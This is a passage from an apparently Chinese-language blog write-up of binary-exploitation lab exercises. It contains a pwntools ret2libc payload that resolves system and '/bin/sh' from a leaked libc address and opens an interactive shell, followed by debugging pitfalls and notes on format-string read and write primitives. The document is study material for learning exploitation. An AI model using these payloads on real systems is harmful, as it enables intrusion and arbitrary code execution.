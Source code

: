 ```python
system_off = libc.symbols['system']
bin_sh_off = libc.search('/bin/sh').next()
libc_addr = puts_addr - puts_off
system_addr = libc_addr + system_off
bin_sh = libc_addr + bin_sh_off

#buf2
p = p32(buf1)
p += p32(system_addr)
p += p32(0xdeadbeef)
p += p32(bin_sh)
r.send(p)

r.interactive()
```



## 坑点1

栈溢出调用read，想调试下，看看read是否管用。但是奈何怎么调试，都无法从stdin中输入。代码逻辑也没写错啊。

![image-20220813232447171](/assets/img/2022/image-20220813232447171.png)

然后发现pwntools中直接继续send数据，是OK的

![image-20220813232730218](/assets/img/2022/image-20220813232730218.png)

![image-20220813232805554](/assets/img/2022/image-20220813232805554.png)

![image-20220813232819804](/assets/img/2022/image-20220813232819804.png)

>TM的，破案了。也就是坑点2的关系，之前是用的sendline，习惯性用sendline了。多传的那个\n变成输入了

## 坑点2

如上图，![image-20220813232846638](/assets/img/2022/image-20220813232846638.png)

如果用sendline，会多一个/n。。。不多说了，调试下就知道。。

# lab7

3个format string attck的题，格式化字符串认知还比较浅，边做边学习。

> 格式化字符串利用的两个本质：
>
> 1、找到`printf(&buf)`中这个buf是printf的第几个参数，在32位程序下，参数都是放在栈上，所以从栈顶esp开始算起，buf的地址是在栈上的第几个。在64位程序下，前6个参数在寄存器上，所以栈上的参数是从第7个开始。
>
> ​	要知道这个buf是第几个参数的原因是，可以知道我们后续要填入的目标地址（一般是地址）是第几个参数（从buf到要填入的地址 有时候需要padding），然后配合第二条，就可以向目标地址读或者写
>
> 2、利用`%n$`，表示是printf的第n+1个参数，可以精确控制到stack上的某个地址，（理解下上一步计算目标地址是第几个参数）   使用`%p`、`%s`等实现读，使用`%c`、`%n` 实现写
